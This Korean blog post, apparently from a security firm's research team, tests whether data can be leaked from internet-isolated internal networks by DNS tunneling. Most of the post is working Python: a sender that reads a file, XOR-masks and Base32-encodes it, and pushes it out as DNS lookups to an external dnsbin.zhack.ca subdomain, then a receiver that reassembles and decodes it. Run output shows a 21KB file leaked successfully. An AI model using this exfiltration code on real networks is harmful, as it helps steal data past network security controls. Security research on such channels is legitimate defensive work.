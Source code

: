 ```yaml
---
layout: post
title:  "DNS Tunneling을 통한 정보 유출"
author: "qbeom"
comments: true
tags: [research, network]
---
```


라온화이트햇 핵심연구팀 최규범([kbchoi@raoncorp.com](mailto:kbchoi@raoncorp.com))


- **목차**

    ---

    ---

### 개요

인터넷 접속이 안되는 내부망 환경에서, 다양한 보안 솔루션이 설치되었어도,
과연, 정보 유출의 위협으로 부터 안전할까요?

DNS Tunneling 기법을 활용하여 위와 같은 환경에서 정보 유출이 가능한지 테스트해보았습니다.

### DNS Tunneling

DNS 프로토콜을 사용하여 임의 데이터를 송수신하는 기술을 DNS Tunneling이라고 합니다.

실제로 많은 악성코드가 원격 명령지 서버와 통신할 때 DNS Tunneling을 악용하고 있습니다.

![/assets/55daf833-d832-4e6a-8182-f78cb29bbda9/0b681e3d-c7f7-468a-94b5-a69801ddf46b.png](/assets/55daf833-d832-4e6a-8182-f78cb29bbda9/0b681e3d-c7f7-468a-94b5-a69801ddf46b.png)

그 이유는 내부망 환경 또는 특정 Outbound 포트만 허용되는 환경에서도, DNS 트래픽 송신이 허용되는 경우가 빈번하기 때문입니다.

![/assets/8d3b6cad-8833-4398-9c11-2499aa7ba03b/fa591cf7-266f-40c6-b901-d813de4ecb95.png](/assets/8d3b6cad-8833-4398-9c11-2499aa7ba03b/fa591cf7-266f-40c6-b901-d813de4ecb95.png)

공격자가 설치한 임의 DNS 서버의 특정 서브 도메인을 조회합니다.
해당 DNS 패킷에서 서브 도메인 정보('leakeddata')만 구별하여 정보를 획득할 수 있습니다.

### 유출 테스트

DNS Tunneling 구현을 위해서는 DNS 서버 구축이 필요합니다.

- Python을 사용하여 DNS Tunneling 구현

       [https://github.com/ialexryan/Burrow-Server](https://github.com/ialexryan/Burrow-Server)

Python을 사용하여 구축할 수 있는 Github 페이지를 확인하였으나, 여러 추가 작업이 필요합니다.

![/assets/ca576997-b4d8-4c2d-8a2f-3f069cbeb5fc/924c39e7-e437-4cfe-9ed2-fa852a6f5294.png](/assets/ca576997-b4d8-4c2d-8a2f-3f069cbeb5fc/924c39e7-e437-4cfe-9ed2-fa852a6f5294.png)

쉬운 방법을 찾던 중, CTF에서도 활용되는 DNSBin(http://dnsbin.zhack.ca/) 페이지를 발견했습니다.

![/assets/a4c1412c-c001-475b-b52f-c8cd7303d8a2/82361422-e8d7-49d1-b0f7-5151fa0faa9d.png](/assets/a4c1412c-c001-475b-b52f-c8cd7303d8a2/82361422-e8d7-49d1-b0f7-5151fa0faa9d.png)

![/assets/05830fe9-e5d6-4dc1-b41b-ca518de63374/4b25fd46-25c7-40b6-90a5-a10cfc883d74.png](/assets/05830fe9-e5d6-4dc1-b41b-ca518de63374/4b25fd46-25c7-40b6-90a5-a10cfc883d74.png)

식별 가능한 특정 서브 도메인이 주어지고, 해당 도메인 앞에 임의 데이터를 붙여서 보내면
서버에서 데이터를 가져옵니다.

도메인 이름 규칙 상 대소문자 구분이 없지만, 해당 사이트에서는 이를 구분하여 보여줍니다.

### 테스트 코드(송신)

아래 내용을 통해 송신 테스트 코드를 작성하였습니다.

- 도메인 이름 규칙 상 허용되는 63개 문자 중, 하이픈(-)을 제외한 62개 문자로 구성
- Raw Data를 보내기 위해서 인코딩이 필요하므로, 간단히 쓸 수 있는 Base32를 사용
(Base62를 사용하고 싶으나, 정수형으로 인자를 받기 때문에 복잡하였습니다.)
- Dnsbin에서 중복 데이터를 표시하지 않으므로, 중복을 피하기 위해 간단한 암호화 필요
- 도메인은 최대 253 글자, 라벨은 63글자로 구성되므로 알맞게  잘라서 송신

```python
import socket
import random
import time
import base64

def rand_bytes(count):
    return bytearray(random.getrandbits(8) for _ in range(count))

f = open("./test.dat", "rb")
data = f.read()
f.close()

size = len(data)
print("Data Size(Org) : ", size)

seed = random.randint(0,100000)
random.seed(seed)

enc = bytearray(data)
rnd = rand_bytes(size)
for i in range(size):
    enc[i] = data[i] ^ rnd[i]

enc = base64.b32encode(enc)
enc = enc.replace(b"=", b"0") # Change pad
size_enc = len(enc)
print("Data Size(Enc) : ", size_enc)

base_domain = '.9b14918384f099f6b54a.d.zhack.ca'
remain = 253 - len(base_domain) # Max Length 253
remain -= int(remain/63) # "."
t_start = time.time()

send_data = "S-%d.O-%d.E-%d" % (seed, size, size_enc) #Send seed, size of data
socket.gethostbyname(send_data + base_domain)

for i in range(0, size_enc, remain):
    enc_part = enc[i:i+remain]
    if len(enc_part) > 63:
        send_data = ""
        for j in range(0, remain, 63):
            if j != 0:
                send_data += "."
            send_data += enc_part[j:j+63].decode('utf-8')
    else:
        send_data = enc_part.decode('utf-8')

    socket.gethostbyname(send_data + base_domain)

t = time.time() - t_start
print("Elapsed Time : ", t, "Secs")
print("Speed(Org) : ", size / t, "B/sec") 
print("Speed(Enc) : ", size_enc / t, "B/sec")
```

```python
Data Size(Org) :  21822
Data Size(Enc) :  34920
Elapsed Time :  37.387837171554565 Secs
Speed(Org) :  583.6657493684237 B/sec
Speed(Enc) :  933.9935829871392 B/sec
>>>
```

21.3KB의 파일을 테스트하였고, 약 0.5KB/s 속도로 전송되었습니다.

결과는 네트워크 환경에 따라 다를 수 있다.

### 테스트 코드(수신)

![/assets/21cacb46-3992-4c22-a4da-da78bb38ed70/8f4736de-b36e-44bf-abad-0cd87c3445d4.png](/assets/21cacb46-3992-4c22-a4da-da78bb38ed70/8f4736de-b36e-44bf-abad-0cd87c3445d4.png)

DNS를 요청하는 과정에서 중복된 값이 전송될 수 있습니다. 

이를 처리해주고 초기에 전송한 Seed를 통해 복호화하는 코드를 작성하였습니다.

```python
import random
import base64

def rand_bytes(count):
    return bytearray(random.getrandbits(8) for _ in range(count))

f = open("./result.dat", "rb")
data = f.read()
f.close()

data = data.split(b"\r\n")
info = data[0].split(b".")

seed, size, size_enc = int(info[0][2:]), int(info[1][2:]), int(info[2][2:])
print("Seed : ", seed)
print("Data Size(Org) : ", size)
print("Data Size(Enc) : ", size_enc)

random.seed(seed)
rnd = rand_bytes(size)

enc = b""
for i in range(1,len(data)):
    if data[i] == data[i-1]:
        continue
    enc += data[i]
enc = enc.replace(b".", b"")
enc = enc.replace(b"0", b"=")
dec = base64.b32decode(enc)

print("Data Size(Enc-Recv) : ", len(enc))
print("Data Size(Dec-Recv) : ", len(dec))

dec = bytearray(dec)
for i in range(size):
    dec[i] ^= rnd[i]

f = open("./test.dat", "rb")
org = f.read()
f.close()
print("Compare Result :", org == dec)
```

```python
Seed :  70953
Data Size(Org) :  21822
Data Size(Enc) :  34920
Data Size(Enc-Recv) :  34920
Data Size(Dec-Recv) :  21822
Compare Result : True
>>>
```

결과 파일(result.dat)은 Dnsbin에서 출력된 텍스트를 저장한 파일입니다.

전송된 데이터가 정상적으로 복호화된 것을 확인할 수 있습니다.

### 참조

- 도메인 이름 규칙([https://www.joinc.co.kr/w/man/12/DNS](https://www.joinc.co.kr/w/man/12/DNS))
